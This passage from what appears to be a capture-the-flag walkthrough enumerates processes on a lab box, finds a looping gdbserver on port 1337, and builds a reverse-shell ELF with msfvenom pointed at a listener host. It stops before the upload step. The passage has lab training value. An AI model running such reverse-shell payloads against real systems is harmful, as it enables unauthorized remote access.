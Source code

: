     
    
    oxdf@hacky$ ./brute_processes.sh  
    1: /sbin/init auto automatic-ubiquity noprompt 
    486: /lib/systemd/systemd-journald 
    512: /lib/systemd/systemd-udevd 
    529: /lib/systemd/systemd-networkd 
    ...[snip]...
    826: /usr/sbin/cron -f 
    829: /usr/sbin/CRON -f 
    830: /usr/sbin/CRON -f 
    851: /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done 
    853: /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done 
    865: /usr/sbin/atd -f 
    867: sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups 
    887: /usr/sbin/apache2 -k start 
    898: /usr/lib/accountsservice/accounts-daemon 
    ...[snip]...
    

This process is:

    
    
    /bin/sh -c while true;
        do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; 
    done
    

It’s running `gdbserve` as user in a loop on port 1337.

### Exploit gdbserver

#### Upload Rev Shell Elf

Hacktricks has a [page](https://book.hacktricks.xyz/pentesting/pentesting-
remote-gdbserver) on exploiting `gdbserver`. I suspect at least the first
technique was tested on Backdoor (given the use of port 1337 and the location
of `/home/user`). This technique is to create an elf, and then upload it to
the remote debugger and run it there.

I’ll create a simple reverse shell payload with `msfvenom`:

    
    
    oxdf@hacky$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 PrependFork=true -f elf -o rev.elf
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 106 bytes
    Final size of elf file: 226 bytes
    Saved as: rev.elf
    

Next, I’ll start debugging it locally:
